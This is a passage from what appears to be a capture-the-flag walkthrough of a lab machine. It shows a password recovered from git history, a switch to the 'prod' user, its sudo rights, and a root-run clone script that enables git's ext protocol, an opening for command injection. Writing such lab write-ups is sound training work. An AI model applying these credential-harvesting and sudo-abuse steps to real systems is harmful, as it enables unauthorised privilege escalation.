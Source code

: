 #### prod's creds 
```bash
dev@editorial:~/apps$ git show b73481bb823d2dfb49c44f4c1e6a7e11912ed8ae
<SNP>
     return jsonify({
-        'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: prod\nPassword: 080217_Producti0n_2023!@\nPlease be sure to change your password as soon as possible for security purposes.\n\nDon't hesitate to reach out if you have any questions or ideas - we're always here to support you.\n\nBest regards, " + api_editorial_name + " Team."
        
+ 'template_mail_message': "Welcome to the team! We are thrilled to have you on board and can't wait to see the incredible content you'll bring to the table.\n\nYour login credentials for our internal forum and authors site are:\nUsername: dev\nPassword: dev080217_devAPI!@\nPlease be sure to change your password as soon as possible for :
```
Woah, there goes the prod's creds. `prod : 080217_Producti0n_2023!@`.

![](gitgud.png)

The creds works over both over `SSH` and `su`.

**su**
```console
dev@editorial:~/apps$ su prod
Password:
prod@editorial:/home/dev/apps$
```

## Shell root

### sudo
prod has some sudo power.
```bash
prod@editorial:/home/dev/apps$ sudo -l
[sudo] password for prod:
Matching Defaults entries for prod on editorial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User prod may run the following commands on editorial:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```
![](https://media2.dev.to/dynamic/image/width=800%2Cheight=%2Cfit=scale-down%2Cgravity=auto%2Cformat=auto/https%3A%2F%2Fdev-to-uploads.s3.amazonaws.com%2Fuploads%2Farticles%2Fc7cziks7c4dezyz8lkqs.png)

The python script is fairly simple, No rocket science. It just clones a repo from url in that `clone_changes` directory.

`clone_prod_change.py`
```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```